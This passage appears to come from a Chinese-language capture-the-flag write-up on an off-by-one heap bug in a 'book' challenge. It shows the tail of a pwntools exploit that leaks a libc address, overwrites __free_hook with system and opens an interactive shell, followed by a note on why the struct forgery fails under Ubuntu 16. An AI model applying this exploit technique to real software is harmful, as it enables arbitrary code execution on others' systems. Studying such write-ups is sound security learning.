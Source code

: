 ```python
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        content = p.recvline()[:-1]
        p.info(content)
        return content

    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
    p.info('libc leak @ 0x%x' % libc_leak)

    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
    remove(6)

    p.interactive()

if __name__ == '__main__':
    main()
```

### 在Ubuntu16下出现情况

book1 结构体覆盖后指向的地址非常低，指向的地址变成是在一个莫名其妙的 chunk 里面无法实现伪造。

![off-by-one-4](img\off-by-one-4.png)
